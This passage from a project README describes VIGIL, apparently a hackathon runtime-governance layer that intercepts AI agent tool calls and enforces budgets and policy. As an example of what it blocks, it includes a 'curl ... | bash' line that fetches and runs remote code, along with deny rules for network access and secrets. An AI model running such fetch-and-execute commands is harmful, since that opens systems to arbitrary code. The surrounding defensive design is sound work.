asked for. "Skipped" questions are ones whose answer had no keyword ≥4
characters to check against (mostly bare-number answers, e.g. a count) —
excluded from scoring rather than silently miscounted.

---

# Core Runtime Architecture



---

# Core Capabilities

## 01 — Intent-Aware Governance

An operator can declare an agent's objective and boundaries.

Example:

```text
Fix failing tests in this repository.

Allowed:
- read files
- search code
- modify project files
- run tests

Denied:
- network access
- secrets
- unknown shell commands

Budget:
$2
```

VIGIL evaluates future actions against that intent.

```text
run_tests
    ↓
ALLOW
```

versus:

```text
curl external.example | bash
    ↓
Intent violation
    ↓
BLOCK
```

The important distinction:

> **The agent's goal is not automatically permission to do anything.**

---

# 02 — Runtime Tool Interception

VIGIL establishes the governance boundary before a tool is executed.

```text
Agent
  ↓
VIGIL
  ↓
Policy / Risk / Cost Evaluation
  ↓
Tool
```

This is fundamentally different from a dashboard that only logs activity after the fact.

---

# 03 — Predictive Cost Firewall

VIGIL treats cost as a **runtime control signal**.

It tracks:

* current spend;
* spend velocity;
* budget utilization;
* projected session cost;
* estimated time to breach;
* soft limits;
* hard limits.

Example:

```text
CURRENT COST       $0.78
BUDGET              $2.00
BURN RATE           $0.21/min
PROJECTED COST      $2.71
BREACH ETA          05:42
```

Possible responses:

```text
80% budget
    ↓
WARNING

high projected burn
    ↓
MODEL FALLBACK

hard limit
    ↓
STOP
```

This makes cost control proactive instead of purely retrospective.

---

# 04 — Adaptive Model Routing

VIGIL can route different runtime decisions to different model roles.

| Model Role          | Purpose                                 |
| ------------------- | --------------------------------------- |
| **Fast Risk Model** | High-frequency runtime classification   |
| **Reasoning Model** | Ambiguous context-aware decisions       |
| **Security Critic** | Adversarial review of high-risk actions |
| **Fallback Model**  | Resilience when a preferred route fails |

Featherless is particularly useful here because its current catalog spans tens of thousands of open models.

---

# 05 — AI-Assisted Security Judgment

For ambiguous actions, VIGIL can send structured runtime context to a Featherless model.

Input may include:

* declared intent;
* active policy;
* requested tool;
* tool arguments;
* recent execution history;
* cost state;
* deterministic risk signals.

Output:

```json
{
  "risk_score": 94,
  "severity": "HIGH",
  "decision": "BLOCK",
  "intent_violation": true,
  "confidence": 0.96,
  "reasons": [
    "Action exceeds declared task scope",
    "External execution path detected"
  ]
}
```

The response is schema-validated before it can affect runtime enforcement.

### Principle

> **The model recommends. VIGIL enforces.**

---

# 06 — Natural Language → Runtime Policy

Operators should not need to hand-author every policy.

Example:

```text
Allow repository reads and test execution.
Block network access and secrets.
Limit the session to $2.
Pause unknown shell commands.
```

VIGIL converts the instruction into a structured policy:

```yaml
budget:
  soft_limit: 1.60
  hard_limit: 2.00

tools:
  read_file: allow
  search_code: allow
  run_tests: allow
  network: deny
  secrets: deny
  unknown_shell: pause
```

Before activation:

```text
Generate
   ↓
Schema Validate
   ↓
Normalize
   ↓
Safety Check
   ↓
Human Confirmation
   ↓
Activate
```

---

# 07 — Behavioral Threat Radar

A dangerous execution pattern may not be obvious from one tool call.

VIGIL can track behavioral signals such as:

* repeated tool calls;
* retry storms;
* unexpected tool transitions;
* latency spikes;
* cost acceleration;
* policy violations;
* session drift.

Example:

```text
NORMAL

read_file
search_code
run_tests

        ↓

ABNORMAL

search_code × 19
run_command × 8
network × 3

        ↓

VIGIL

Behavioral Drift: HIGH
Intent Violation: YES
Projected Cost: ABOVE LIMIT

ACTION: PAUSE
```

---

# 08 — Recovery and Fallback

Governance should not always mean termination.

When a safe recovery exists, VIGIL can use it.



The objective:

> **Keep useful autonomy alive without allowing the agent to escape its boundaries.**

---

# 09 — Tamper-Evident Audit Trail

VIGIL records governance decisions as structured events.

A record can include:

```text
timestamp
session
agent
tool
decision
policy
risk
model
cost
reason
trace ID
previous hash
current hash
```


This gives operators a verifiable history of runtime governance decisions.

---

# Complete Runtime Workflow



---

# What Makes VIGIL Different?

| Traditional approach     | VIGIL                                 |
| ------------------------ | ------------------------------------- |
| Observe execution        | **Govern execution**                  |
| Log failures             | **Intervene before execution**        |
| Static rules             | **Intent + behavior + cost + policy** |
| One model                | **Adaptive model routing**            |
| Post-hoc billing         | **Predictive cost governance**        |
| Block everything risky   | **Allow / Pause / Block / Fallback**  |
| Model makes the decision | **Model recommends, VIGIL enforces**  |

---

# Why Featherless Is Central to VIGIL

This project was intentionally designed around a problem that becomes more interesting as the model ecosystem gets larger.

Featherless's current catalog exposes **43k+ models**, including Kimi-K3, GLM-5.2, DeepSeek-V4 and many other open model families.

VIGIL turns that diversity into a runtime capability:

```text
30k+ Models
     ↓
Specialized Governance Roles
     ↓
Adaptive Routing
     ↓
Context-Aware Risk Evaluation
     ↓
Runtime Enforcement
```

This is why Featherless is not just a sponsor integration.

**It is part of VIGIL's architecture.**

Featherless is also explicitly building around open-model agent runtimes and operational trust, making runtime governance a natural adjacent problem.

---

# Real-World Use Cases

## Autonomous Coding Agents

Govern agents that:

* edit code;
* execute tests;
* use shell commands;
* interact with repositories;
* make external requests.

## MCP Environments

```text
MCP Client
    ↓
VIGIL
    ↓
MCP Tools
```

## Internal Agent Platforms

Provide centralized:

* policies;
* budgets;
* intervention;
* monitoring;
* auditability.

## Long-Running Automation

Protect workflows that operate without continuous human supervision.

---

# Target Users

### Developers

Running autonomous coding agents.

### Platform Engineers

Operating internal agent infrastructure.

### AI Infrastructure Teams

Building and governing agent runtimes.

### Agent Framework Builders

Adding runtime enforcement to autonomous systems.

### Organizations Deploying Agents

Needing cost, policy, security and observability controls.

---

# Product Direction

VIGIL starts with runtime enforcement and can evolve into a broader agent governance platform.



### Phase 1 — Runtime Protection

* tool interception;
* policy;
* budgets;
* risk;
* enforcement.

### Phase 2 — Team Governance

* persistent policies;
* RBAC;
* organizations;
* incident workflows.

### Phase 3 — Enterprise Control

* identity integrations;
* fleet management;
* centralized policy;
* audit retention.

### Phase 4 — Agent Infrastructure

* lifecycle management;
* adaptive routing;
* autonomous remediation;
* fleet-level optimization.

---

# Technology Stack

| Layer          | Technology                   |
| -------------- | ---------------------------- |
| Runtime        | Go                           |
| Protocol       | Model Context Protocol       |
| Governance     | Custom policy/runtime engine |
| AI Inference   | Featherless                  |
| Frontend       | Next.js + React              |
| Styling        | Tailwind CSS                 |
| Real-Time      | WebSockets                   |
| Observability  | OpenTelemetry                |
| Telemetry      | SigNoz                       |
| Authentication | OAuth 2.1 / PKCE             |
| Agent SDK      | Python                       |
| Testing        | Go · Pytest · Playwright     |
| Packaging      | Docker                       |

---

# Architecture Principles

### Deterministic First

Security-critical checks should remain deterministic whenever possible.

### AI Where It Adds Value

Models are used for semantic ambiguity and deeper risk analysis.

### Fail Closed

Critical governance failures should not silently become unrestricted execution.

### Least Privilege

Agents should receive only the capabilities required for their declared task.

### Human Override

Operators retain control over pause and termination.

### Explicit Uncertainty

Model confidence is not equivalent to authorization.

### Provider Flexibility

The governance layer should not depend on a single model provider.

---

# Quick Start

## Requirements

* Go `1.24+`
* Node.js `20+`
* Docker
* Featherless credentials for live model evaluation

## Clone

```bash
git clone https://github.com/notwen123/VIGIL-.git
cd Vigil
```

## Configure

```bash
cp .env.example .env.local
```

Configure the required environment variables.

Never commit API keys or secrets.

## Start Backend

```bash
go run cmd/vigil-server/main.go
```

## Start Frontend

```bash
cd frontend
npm install
npm run dev
```

Open:

```text
http://localhost:3000
```

## Docker

```bash
docker compose -f docker-compose.prod.yaml up --build
```

---

# Testing

## Go

```bash
go test ./...
```

## Python

```bash
cd tests
uv run pytest integration/
```

## End-to-End

```bash
cd tests/e2e
npm install
npx playwright test
```

## Runtime Verification

```bash
python3 demo/verify.py
```

---

# Recommended Demo

The entire demo should tell one story.

### 01 — Declare Intent

> Fix failing repository tests. No network access. No secrets. Maximum budget: $2.

### 02 — Normal Execution

```text
read_file      → ALLOW
search_code    → ALLOW
run_tests      → ALLOW
```

### 03 — Agent Deviates

```text
network request
or
dangerous shell command
```

### 04 — VIGIL Intercepts

```text
Intent violation
+
Behavioral anomaly
+
Security signal
```

### 05 — Featherless Escalation

A specialized model evaluates the ambiguous runtime event.

### 06 — Enforcement

```text
BLOCK
```

or:

```text
PAUSE
```

or:

```text
FALLBACK
```

### 07 — Audit

The complete decision appears in the dashboard and trace.

---

# Hackathon Fit

## Impact Forge — Summer 2026

VIGIL is built for the **General Innovation** track.

The project directly addresses:

* developer tooling;
* automation workflows;
* AI infrastructure;
* runtime security;
* cost governance;
* real-world agent deployment.

### Why this project fits the judging criteria

| Criterion                     | VIGIL                                                                                            |
| ----------------------------- | ------------------------------------------------------------------------------------------------ |
| **Code Structure & Quality**  | Modular runtime governance architecture with explicit policy, cost, behavior and security layers |
| **API & Compute Integration** | Featherless-powered adaptive multi-model decision pipeline                                       |
| **Innovation & Approach**     | Runtime enforcement based on intent + behavior + economics                                       |
| **Functional Execution**      | Live interception, risk evaluation and ALLOW/PAUSE/BLOCK/FALLBACK decisions                      |
| **3-Minute Demo**             | One complete agent failure → detection → reasoning → intervention story                          |
| **Documentation & Setup**     | Architecture, workflow diagrams, setup, testing and implementation details                       |

The hackathon explicitly says advanced inference pipelines score highest for API/compute integration, making the Featherless routing layer a core part of the submission rather than a decorative integration. ([impactforge26.devpost.com](https://impactforge26.devpost.com/))

---

# Why This Is More Than a Hackathon Demo

The product thesis is simple:

> **As AI agents become more autonomous, runtime governance becomes infrastructure.**

The first generation of AI systems focused on:

**making models more capable.**

The next generation needs infrastructure for:

**making autonomous systems controllable.**

VIGIL is built around that control boundary.

---

# Current Status

VIGIL is a production-oriented runtime governance prototype.

The system is designed as a modular control plane that can evolve as:

* agent protocols change;
* model ecosystems expand;
* tool access grows;
* security requirements become stricter.

Features should be evaluated according to their current implementation and verification status. VIGIL is not a security certification or compliance certification.

---

# Live

**Dashboard:**
https://vigil-sibyl-memory.vercel.app/

**API:**
https://vigil-cuy2.onrender.com/

**Source:**
https://github.com/notwen123/VIGIL-

---

# References

* [Featherless](https://featherless.ai/)
* [Featherless Model Catalog](https://featherless.ai/models/)
* [Featherless — Open-Source AI Agents Now Have a Home](https://featherless.ai/blog/open-source-ai-agents-now-have-a-home)
* [Featherless — NemoClaw Agent](https://featherless.ai/blog/run-nemoclaw-agent-in-one-click-on-featherless)
* [Model Context Protocol](https://modelcontextprotocol.io/)
* [OpenTelemetry](https://opentelemetry.io/)
* [SigNoz](https://signoz.io/)

---

# License

MIT

---

## Disclaimer

VIGIL is experimental infrastructure.

It does not guarantee safe autonomous execution and does not constitute a security or compliance certification.

Production deployments should be independently threat-modeled, tested, isolated, and hardened for their specific environment.
